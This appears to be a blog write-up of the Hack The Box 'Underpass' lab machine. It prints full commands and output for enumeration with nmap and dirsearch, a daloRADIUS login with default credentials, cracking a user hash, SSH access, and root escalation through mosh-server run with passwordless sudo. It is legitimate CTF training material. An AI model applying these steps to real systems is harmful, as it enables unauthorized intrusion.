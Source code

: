 ```yaml
---
layout: post
title: "Hack The Box: Underpass"
date: 2025-05-23
categories: [HackTheBox, Writeup]
tags: [Linux, easy, daloradius, mosh, privilege-escalation]
permalink: /posts/Underpass/
toc: true
---
```


#  Hack The Box: Underpass 
## Table of Contents

- [Enumeration](#enumeration)
  - [Nmap Scan](#nmap-scan)
  - [Daloradius Web Application](#daloradius-web-application)
- [Exploitation](#exploitation)
  - [Initial Foothold](#initial-foothold)
  - [Privilege Escalation](#privilege-escalation)


Posted May 23, 2025
![Description](/assets/images/UnderPass/image%20(1).png)

**UnderPass** is an **easy-difficulty machine** from Hack The Box that starts with an
exposed **Daloradius** instance, accessible using **default credentials**. Inside the
application, we discover a password **hash** which we successfully crack. The
recovered credentials allow SSH access to the target machine. Once on the box, we
find that we can launch a **mosh server** with root privileges, which we exploit to
escalate our privileges and ultimately gain **root access**.



##  Enumeration
### nmap scan
### We begin with an Nmap scan:

```bash
$ nmap -A -Pn 10.10.11.48

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 10:17 W. Central Africa Standard Time
Nmap scan report for 10.10.11.48
Host is up (0.47s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_ 256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.77 seconds
```

**Open Ports:**
- **22/tcp** – SSH 
- **80/tcp** – HTTP

 Trying to access the website, it looks like we have a default apache page

![Description](/assets/images/UnderPass/image%20(2).png)
### Daloradius web application
### Using `dirsearch`, we discovered a hidden web directory at `/daloradius/`, which is commonly associated with the DaloRadius web interface:

```bash
$ dirsearch -u "http://underpass.htb/daloradius/" -t 50

|. _ _ _ _ _ | v0.4.3
(
||| ) (/(|| (| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist
size: 11460
Output File: /home/kali/UnderPass/reports/http_underpass.htb/_daloradius__24-1222_12-58-34.txt
Target: http://underpass.htb/
[12:58:34] Starting: daloradius/
[12:58:39] 200 - 221B - /daloradius/.gitignore
[12:58:47] 301 - 323B - /daloradius/app -> http://underpass.htb/daloradius/app/
[12:58:49] 200 - 24KB - /daloradius/ChangeLog
[12:58:51] 301 - 323B - /daloradius/doc -> http://underpass.htb/daloradius/doc/
[12:58:51] 200 - 2KB - /daloradius/docker-compose.yml
[12:58:51] 200 - 2KB - /daloradius/Dockerfile
[12:58:57] 301 - 327B - /daloradius/library ->
http://underpass.htb/daloradius/library/
[12:58:57] 200 - 18KB - /daloradius/LICENSE
[12:59:04] 200 - 10KB - /daloradius/README.md
[12:59:05] 301 - 325B - /daloradius/setup ->
http://underpass.htb/daloradius/setup/
Task Completed
```



##  Exploitation
### initial foothold
While researching daloradius online, I identified a commonly used login path at /daloradius/operators/login.php. Accessing this path revealed a login panel for the daloradius web interface.

![Description](/assets/images/UnderPass/image%20(3).png)
### 1. **Accessing DaloRadius**
We navigate to `/daloradius/operators/login.php` and log in with default credentials:

- **Username:** administrator  
- **Password:** radius

![Description](/assets/images/UnderPass/image%20(4).png)
### 2. **Retrieving User Hash**
Inside DaloRadius, we find a user `svcMosh` with the following hash:

```
412DD4759978ACFCC81DEAB01B382403
```
![Description](/assets/images/UnderPass/image%20(5).png)

Using [crackstation.net](https://crackstation.net), we crack the hash:

- **Password:** underwaterfriends

### 3. **Gaining SSH Access**
We SSH into the box:

```bash
ssh svcMosh@underpass.htb
# Password: underwaterfriends
```

And retrieve the user flag:

```bash
cat ~/user.txt
# -> bbfc40fc1389516f00b23bcb62c85872
```



###  Privilege Escalation

Checking `sudo` privileges:

```bash
sudo -l
```

We find:

```bash
Matching Defaults entries for svcMosh on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User svcMosh may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/mosh-server

```

This means the user `svcMosh` can run the `mosh-server` command as root without needing to type a password.


1. On the victim machine:

```bash
$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 N7vPqLt4KrX9DfYmHsUw3A
mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein
mosh-devel@mit.edu
License GPLv3+: GNU GPL version 3 or later
http://gnu.org/licenses/gpl.html.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
[mosh-server detached, pid = 3100]
```

2. On the attacker machine:

```bash
$ MOSH_KEY=N7vPqLt4KrX9DfYmHsUw3A mosh-client <ip> 60001

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
Documentation: https://help.ubuntu.com
Management: https://landscape.canonical.com
Support: https://ubuntu.com/pro
System information as of Tue Dec 24 03:25:41 PM UTC 2024
System load: 0.0 Processes: 227
Usage of /: 89.0% of 3.75GB Users logged in: 0
Memory usage: 10% IPv4 address for eth0: 10.129.243.71
Swap usage: 0%
=> / is using 89.0% of 3.75GB
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See
https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
#
```

You're now root:

```bash
id
# uid=0(root) gid=0(root)

cat /root/root.txt
# -> 95bfbcdd99b59de1bead0d706a1c6774
```



##  Summary

-  Enumerated daloradius on web server
-  Used default credentials
-  Cracked hash to gain SSH access
-  Escalated privileges via `mosh-server`

Pwned! 🎉

